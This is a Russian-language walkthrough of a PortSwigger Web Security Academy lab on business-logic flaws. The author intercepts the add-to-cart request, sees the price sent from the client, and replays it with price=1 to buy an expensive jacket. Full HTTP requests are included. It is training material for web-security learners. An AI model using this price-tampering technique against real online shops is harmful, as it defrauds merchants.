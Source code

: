 ```yaml
---
title: "Excessive trust in client-side controls"
date: 2025-10-16
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-excessive-trust-in-client-side-controls"
classes: wide
---
```


Для решения необходимо купить `Lightweight l33t leather jacket`. Для входа в учетную запись есть креды `wiener`:`peter`.

```
https://0a9800e003497ec381dbfcaa00f800b9.web-security-academy.net
```

# Solution

Как всегда нужно осмотреться. Залогинюсь в личный кабинет. На балансе даже есть 100$. Попробую что-то купить. У нашей мечты `productid=1`. Думаю, что это может пригодиться.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_blv/IMG_excessive-trust-in-client-side-controls/1.png){: height="200" .align-center}

Нужно войти в аккаунт. Креды я дам. Нужно купить жилет. Денег я не дам.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_blv/IMG_excessive-trust-in-client-side-controls/2.jpeg){: height="200" .align-center}

Печаль(

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_blv/IMG_excessive-trust-in-client-side-controls/3.png){: height="200" .align-center}

Попробую купить что-то подешевле. Вот такую штуку купить получилось. 

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_blv/IMG_excessive-trust-in-client-side-controls/4.png){: height="200" .align-center}

Но запрос на покупку мне ничего не сказал. 

```http
POST /cart/checkout HTTP/2
Host: 0a9800e003497ec381dbfcaa00f800b9.web-security-academy.net
Cookie: session=TU5zBxHL8jP3KWpsAqeJDml7qleXEsEL
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:143.0) Gecko/20100101 Firefox/143.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a9800e003497ec381dbfcaa00f800b9.web-security-academy.net/cart
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
Origin: https://0a9800e003497ec381dbfcaa00f800b9.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Pragma: no-cache
Cache-Control: no-cache
Te: trailers

csrf=eBZT5QduV47JhZVmKdgk33wFaupkZBdi
```

В истории запросов я нашел вот это:

```http
POST /cart HTTP/2
Host: 0a9800e003497ec381dbfcaa00f800b9.web-security-academy.net
Cookie: session=TU5zBxHL8jP3KWpsAqeJDml7qleXEsEL
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:143.0) Gecko/20100101 Firefox/143.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a9800e003497ec381dbfcaa00f800b9.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Origin: https://0a9800e003497ec381dbfcaa00f800b9.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

productId=1&redir=PRODUCT&quantity=1&price=133700
```

Не знаю зачем, но в запросе добавления в корзину передается цена. А мне и не сложно потестить:

```http
POST /cart HTTP/2
Host: 0a9800e003497ec381dbfcaa00f800b9.web-security-academy.net
Cookie: session=TU5zBxHL8jP3KWpsAqeJDml7qleXEsEL
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:143.0) Gecko/20100101 Firefox/143.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a9800e003497ec381dbfcaa00f800b9.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 44
Origin: https://0a9800e003497ec381dbfcaa00f800b9.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

productId=1&redir=PRODUCT&quantity=1&price=1
```

Меня устраивает такая цена)

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IIMG_blv/IMG_excessive-trust-in-client-side-controls/5.png){: height="200" .align-center}

Решена)

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_blv/IMG_excessive-trust-in-client-side-controls/6.png){: height="200" .align-center}
